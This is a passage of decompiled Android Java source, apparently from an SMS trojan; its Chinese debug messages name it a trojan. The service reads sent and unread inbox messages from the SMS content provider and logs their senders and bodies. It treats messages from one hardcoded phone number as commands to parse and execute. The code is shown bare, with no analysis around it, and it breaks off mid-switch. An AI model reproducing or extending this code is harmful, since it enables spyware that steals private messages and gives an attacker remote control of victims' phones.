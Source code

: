           System.out.println("木马截获SEND短信成功>>>" + localStringBuilder2.toString());
        }
        while (localCursor1.moveToNext());
        localCursor1.close();
        if (localCursor1 != null)
          localCursor1.close();
        localCursor2 = ListenMessageService.this.getContentResolver().query(Uri.parse("content://sms/inbox"), new String[] { "_id", "address", "read", "body", "thread_id" }, "read=?", new String[] { "0" }, "date desc");
      }
      while (localCursor2 == null);
      if (!localCursor2.moveToNext())
      {
        localCursor2.close();
        System.out.println("木马离开ContentObserver，完成截获---------------------------------------------------");
        if (localCursor2 != null)
          localCursor2.close();
        System.out.println("=====================================================");
        super.onChange(true);
        return;
      }
      System.out.println("木马进入RECV查询---------------------------------");
      ListenMessageService.SmsInfo localSmsInfo = new ListenMessageService.SmsInfo(ListenMessageService.this);
      StringBuilder localStringBuilder1 = new StringBuilder();
      String str1 = localCursor2.getString(localCursor2.getColumnIndex("body"));
      System.out.println("time->" + System.currentTimeMillis() + ";content->" + str1);
      int i = str1.indexOf("#");
      label469: String str4;
      if (i < 0)
      {
        if (ListenMessageService.this.app.lastMsg.equals(str1))
        {
          if (System.currentTimeMillis() - ListenMessageService.this.app.time < 15000L)
          {
            System.out.println("^^^^^^^^^^^^^^^^^");
            System.out.println("Second # into ,return!");
            System.out.println("^^^^^^^^^^^^^^^^^");
          }
        }
        else
          ListenMessageService.this.app.lastMsg = str1;
        ListenMessageService.this.app.time = System.currentTimeMillis();
        localSmsInfo.smsBody = str1;
        localSmsInfo._id = localCursor2.getString(localCursor2.getColumnIndex("_id"));
        String str2 = localCursor2.getString(localCursor2.getColumnIndex("address")).replace(" ", "").replace("+86", "");
        localSmsInfo.smsAddress = str2;
        localSmsInfo.thread_id = localCursor2.getString(localCursor2.getColumnIndex("thread_id"));
        localSmsInfo.read = localCursor2.getString(localCursor2.getColumnIndex("read"));
        localStringBuilder1.append("recvFrom:").append(localCursor2.getString(localCursor2.getColumnIndex("address")));
        localStringBuilder1.append(";content:").append(localCursor2.getString(localCursor2.getColumnIndex("body")));
        System.out.println(localStringBuilder1.toString());
        if (!str2.equals("18670259904"))
          break label1345;
        System.out.println("木马判断为命令消息，执行");
        str4 = str1.substring(0, i);
        switch (str4.hashCode())
        {
        default:
          label728: ListenMessageService.this.Flag = false;
          System.out.println("数据库处理不认识的命令--------------------------------------");